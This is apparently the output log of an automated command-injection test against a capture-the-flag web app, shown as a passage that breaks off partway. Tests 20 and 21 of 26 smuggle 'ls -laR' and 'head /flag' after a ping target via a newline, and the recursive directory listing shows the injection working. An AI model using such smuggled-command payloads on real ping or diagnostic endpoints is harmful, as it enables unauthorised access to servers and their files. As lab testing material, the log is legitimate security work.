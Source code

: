 /usr/local/lib/python3.11/idlelib/README.txt
/var/lib/aethercorp/reports/report_0816.txt
/var/lib/aethercorp/reports/report_0815.txt
/var/lib/aethercorp/missions/mission_alpha.txt
/var/lib/aethercorp/missions/mission_beta.txt
/app/mission_briefing.txt
/app/requirements.txt

================================================================================

[20/26] Testing: Show all hidden files

================================================================================
PAYLOAD: Show all hidden files
Command: 8.8.8.8
ls -laR
--------------------------------------------------------------------------------
PING 8.8.8.8 (8.8.8.8) 56(84) bytes of data.
64 bytes from 8.8.8.8: icmp_seq=1 ttl=112 time=3.65 ms
64 bytes from 8.8.8.8: icmp_seq=2 ttl=112 time=3.77 ms
64 bytes from 8.8.8.8: icmp_seq=3 ttl=112 time=3.76 ms
64 bytes from 8.8.8.8: icmp_seq=4 ttl=112 time=3.75 ms

--- 8.8.8.8 ping statistics ---
4 packets transmitted, 4 received, 0% packet loss, time 3006ms
rtt min/avg/max/mdev = 3.645/3.730/3.771/0.050 ms
.:
total 24
drwxr-xr-x 1 root root 4096 Oct  4 11:45 .
drwxr-xr-x 1 root root 4096 Oct  4 11:54 ..
-rwxr-xr-x 1 root root 2298 Oct  4 07:38 app.py
-rwxr-xr-x 1 root root  290 Oct  4 07:38 mission_briefing.txt
-rwxr-xr-x 1 root root   14 Oct  4 07:38 requirements.txt
drwxr-xr-x 2 root root 4096 Oct  4 07:38 templates

./templates:
total 16
drwxr-xr-x 2 root root 4096 Oct  4 07:38 .
drwxr-xr-x 1 root root 4096 Oct  4 11:45 ..
-rwxr-xr-x 1 root root 5021 Oct  4 07:38 index.html

================================================================================

[21/26] Testing: Read /flag

================================================================================
PAYLOAD: Read /flag
Command: 8.8.8.8
head /flag
--------------------------------------------------------------------------------
PING 8.8.8.8 (8.8.8.8) 56(84) bytes of data.
64 bytes from 8.8.8.8: icmp_seq=1 ttl=112 time=3.65 ms
64 bytes from 8.8.8.8: icmp_seq=2 ttl=112 time=3.77 ms
64 bytes from 8.8.8.8: icmp_seq=3 ttl=112 time=3.76 ms
64 bytes from 8.8.8.8: icmp_seq=4 ttl=112 time=3.78 ms
